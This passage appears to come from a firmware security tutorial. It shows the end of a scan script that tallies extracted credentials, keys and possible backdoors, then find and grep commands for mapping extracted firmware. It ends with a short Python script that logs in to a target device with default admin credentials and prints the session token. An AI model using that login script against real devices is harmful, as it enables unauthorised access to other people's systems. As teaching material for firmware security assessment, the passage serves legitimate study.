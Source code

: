 ```bash
echo "[+] Analysis complete. Results saved to $RESULTS_DIR/"
echo "--- Summary ---"
echo "Certificates and keys: $(wc -l < $RESULTS_DIR/certificates.txt)"
echo "Configuration files: $(wc -l < $RESULTS_DIR/config_files.txt)"
echo "Potential hardcoded credentials: $(wc -l < $RESULTS_DIR/hardcoded_credentials.txt)"
echo "Network configurations: $(wc -l < $RESULTS_DIR/network_config.txt)"
echo "Executable files: $(wc -l < $RESULTS_DIR/executables.txt)"
echo "Potential backdoors: $(wc -l < $RESULTS_DIR/potential_backdoors.txt)"
echo "URLs discovered: $(wc -l < $RESULTS_DIR/urls.txt)"
echo "IP addresses found: $(wc -l < $RESULTS_DIR/ip_addresses.txt)"
EOF

chmod +x enhanced_firmware_scan.sh
```

### Understanding Firmware Architecture

Beyond simple string searches, understanding the firmware's architecture is crucial:

```bash
# Identify CPU architecture
file _firmware.bin.extracted/squashfs-root/bin/busybox

# Find startup scripts
find _firmware.bin.extracted/ -name "rcS" -o -name "inittab" -o -name "init.d"

# Locate web server directories
find _firmware.bin.extracted/ -name "www" -o -name "html" -o -name "htdocs"

# Examine service configuration
find _firmware.bin.extracted/ -name "*.service" -o -name "services"
```

### Exploiting Firmware Findings

Once vulnerabilities are identified, develop exploitation strategies:

```bash
# Example: If default credentials found
# 1. Identify the service they apply to
grep -r "username=admin" --include="*.conf" _firmware.bin.extracted/

# 2. Locate the service's network configuration
grep -r "port=" --include="service.conf" _firmware.bin.extracted/

# 3. Create exploitation script
cat > exploit.py << 'EOF'
import requests
import sys

target = sys.argv[1]
url = f"http://{target}:8080/login"
credentials = {"username": "admin", "password": "default_password"}

response = requests.post(url, json=credentials)
if "token" in response.text:
    print(f"[+] Successful authentication! Token: {response.json()['token']}")
    # Continue exploitation...
else:
    print("[-] Authentication failed")
EOF
```

